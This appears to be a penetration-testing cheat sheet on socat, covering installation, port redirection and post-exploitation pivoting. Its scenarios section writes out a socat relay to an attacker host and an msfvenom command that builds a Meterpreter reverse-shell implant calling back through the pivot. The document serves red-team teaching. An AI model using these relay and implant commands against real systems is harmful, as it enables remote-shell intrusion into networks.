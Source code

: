 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - scenarios
  - cross-platform
  - socat
---
```

# Socat

## 01 - Setup

### 1.1 - Package Manager

#### 1.1.1 - Ubuntu/Debian Distros

```
$ sudo apt install -y socat
```

You can just download the `.deb` file and extract it.

```
$ apt download socat

$ dpkg -x socat_*.deb work
```

Then you can just execute the program as it was portable.

```
$ work/usr/bin/socat -V
```

#### 1.1.2 - Red Hat Distros

```
$ dnf download socat
```

#### 1.1.3 - Arch Linux Distros

```
$ pacman -Sw socat
```

### 1.2 - Download Pre-compiled Binary

#### 1.2.1 - Linux

```
$ wget -qO socat https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.bin && chmod 755 socat

$ curl -o socat https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.bin && chmod 755 socat
```

#### 1.2.2 - Windows

Download the pre-compiled binary in command prompt.

```
C:\> certutil -urlcache -split -f https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.exe socat.exe

C:\> curl -o socat.exe https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.exe
```

Download the pre-compiled binary in PowerShell.

```
PS C:\> Invoke-WebRequest https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.exe -OutFile socat.exe
```

### 1.3 - Compile

#### 1.3.1 - Linux

```
$ git clone https://github.com/3ndG4me/socat.git && \
cd socat && ./configure && make && make install
```

#### 1.3.2 - Windows

TODO: Fill this info

## 02 - Usage

### 2.1 - Open Two Listening Ports

```
> socat -v tcp-listen:<local_PORT_1> tcp-listen:<local_PORT_2>
```

### 2.2 - Redirect Port

```
> socat tcp-listen:<local_PORT>,reuseaddr tcp-connect:<target_IP>:<target_PORT>
```

### 2.3 - Bridge Two Hosts

```
> socat -v tcp-connect:<target_IP_1>:<target_PORT_1>,reuseaddr tcp-connect:<target_IP_2>:<target_PORT_2>
```

## 03 - Scenarios

### 3.1 - Port Forward Reverse Shell

```
> socat tcp4-listen:<pivot_PORT>,fork tcp4:<attacker_IP>:<attacker_PORT>
```

Generate a reverse shell with the IP address of the compromised machine to pivot from.

```
userware@hackware-os:~$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<pivot_IP> lport=<pivot_PORT> -f exe -o implant.exe
```

### 3.2 - Bind Web Server Port

```
> socat tcp-listen:8443,reuseaddr tcp-connect:<webserver_IP>:443
```

Then use `curl` to check connect to the pivot server.

```
userware@hackware-os:~$ curl -k https://<pivot_IP>:8443
```

---
## References

### Github

- [3ndG4me: Socat Source Repository](https://github.com/3ndG4me/socat)

- [runsisi: Socat Source Repository](https://github.com/runsisi/socat)

- [InternalAllTheThings: Network Pivoting Techniques](https://swisskyrepo.github.io/InternalAllTheThings/redteam/pivoting/network-pivoting-techniques/)

- [Ironhackers: Port Forwarding Cheatsheet](https://ironhackers.es/en/cheatsheet/port-forwarding-cheatsheet/)

- [Certcube: Pivoting Port Forwarding](https://blog.certcube.com/pivoting-port-forwarding/)

- [Artkond Pivoting Guide](https://artkond.com/2017/03/23/pivoting-guide/)

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [SevenLayers: Socat Reverse Shell Relay](https://sevenlayers.com/index.php/blog/500-socat-reverse-shell-relay)

- [CyberSec Wikimandine: Socat](https://amandinegh.gitbook.io/cyberadventure/internal/pivoting-tunneling-and-port-forwarding/socat)